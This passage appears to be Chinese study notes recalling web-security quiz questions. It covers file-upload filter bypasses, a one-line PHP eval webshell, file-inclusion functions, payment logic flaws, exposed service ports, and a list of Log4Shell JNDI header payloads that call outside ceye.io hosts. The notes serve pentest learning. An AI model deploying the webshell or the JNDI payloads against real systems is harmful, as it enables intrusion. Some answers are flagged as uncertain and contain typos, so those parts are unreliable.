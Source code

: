    ```
   MIME检测
   	Content-Type进行修改
   ```

   ```
   白名单检测
   	%00截断
   	0x00截断
   ```

   ```
   黑名单检测
       文件扩展名绕过	
       .user.ini.绕过
       .htaccess文件绕过 
       apache解析漏洞 
       IIS解析漏洞
       Nginx解析漏洞 
       widows系统文件命名规则的特殊利用 
   ```

   ```
   文件内容检测
   	文件头检测
   		制作图片马或者或者在文件头部添加文件幻数
   	shell检测
   		<script language="php">eval($_POST['pass']);</script>
   	条件竞争绕过
   ```

3. 导致文件包含的函数

   ​	PHP：include(), include_once(), require(), require_once(), fopen(), readfile()

    	JSP/Servlet：ava.io.File(), java.io.Fil-eReader()

   ​	ASP：include file, include virtual

4. url中存在？img=image/mingzi.jpg 可对参数进行那些测试。（答案不确定，选项也忘了）

5. 用户支付中可能存在的漏洞。

   ​	修改支付价格，修改运费或者物品数量，整数溢出，修改支付账户，并发操作，修改优惠券金额，替换商品id，修改支付状态

6. 下列端口与信息对应的是。（答案不确定）

   - 50700，50300------hadoop默认端口未授权访问
   - 6379----redis未授权
   - 873----Rsync未授权
   - 443----MS17010 （错误选项，正确的是445和139）

7. log4j测试用例。

   ```
   X-Client-IP: ${jndi:ldap://1644763261510dpicz.zdl7qs.ceye.io/VXBQo}
   X-Remote-IP: ${jndi:ldap://1644763261510jnabe.zdl7qs.ceye.io/vl}
   X-Remote-Addr: ${jndi:ldap://1644763261510xplnj.zdl7qs.ceye.io/hTE}
   X-Forwarded-For: ${jndi:ldap://1644763261510lbnhl.zdl7qs.ceye.io/hvgsw}
   X-Originating-IP: ${jndi:ldap://1644763261510pbhdy.zdl7qs.ceye.io/LxrC}
   True-Client-IP: ${jndi:rmi://1644763261510jjchm.zdl7qs.ceye.io/FrfXm}
   Originating-IP: ${jndi:rmi://1644763261510jctho.zdl7qs.ceye.io/vbP}
   X-Real-IP: ${jndi:rmi://1644763261510fyvxt.zdl7qs.ceye.io/fWmjt}
   Client-IP: ${jndi:rmi://1644763261510nfaoa.zdl7qs.ceye.io/mS}
   X-Api-Version: ${jndi:rmi://1644763261510daeem.zdl7qs.ceye.io/IdJ}
   Sec-Ch-Ua: ${jndi:dns://1644763261510wjiit.zdl7qs.ceye.io/IX}
   Sec-Ch-Ua-Platform: ${jndi:dns://1644763261510dacbb.zdl7qs.ceye.io/ftA}
   Sec-Fetch-Site: ${jndi:dns://1644763261510rypwe.zdl7qs.ceye.io/asWuD}
   Sec-Fetch-Mode: ${jndi:dns://1644763261510osrig.zdl7qs.ceye.io/zc}
   Sec-Fetch-User: ${jndi:dns://1644763261510uvfsl.zdl7qs.ceye.io/oNpOs}
   Sec-Fetch-Dest: ${jndi:dns://1644763261510ptqen.zdl7qs.ceye.io/fGwFl}
   ```